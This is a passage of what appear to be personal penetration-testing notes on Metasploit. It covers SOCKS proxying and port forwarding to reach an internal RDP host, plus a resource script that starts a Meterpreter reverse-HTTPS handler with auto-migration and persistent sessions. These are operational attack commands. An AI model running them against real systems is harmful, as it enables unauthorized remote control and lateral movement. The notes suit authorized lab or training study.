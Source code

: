 ```bash
set LPORT 8080

# did not work!
# use aux socks proxy to run applications outside of metasploit
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
proxychains ...

# use port forward for a single port e.g. RDP
portfwd
portfwd add -l 3389 -p 3389 -r 172.16.189.200
sudo xfreerdp3 /v:127.0.0.1 /u:user

```

## Automating Metasploit

Advance Options

```bash
msf6 (multi/handler)>
show advanced

# auto migrate to notepad
set AutoRunScript post/windows/manage/migrate 

# listen for multiple session
set ExitOnSession false

# run in background wait for interactions
run -z -j
```

Run automation resource scripts

```bash
cat https_multi_handler.rc

use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.145.234
set LPORT 443
set AutoRunScript post/windows/manage/priv_migrate 
set ExitOnSession false
run -z -j

# Run resource file
sudo msfconsole -r https_multi_handler.rc

# More resource files here
ls -l /usr/share/metasploit-framework/scripts/resource
```
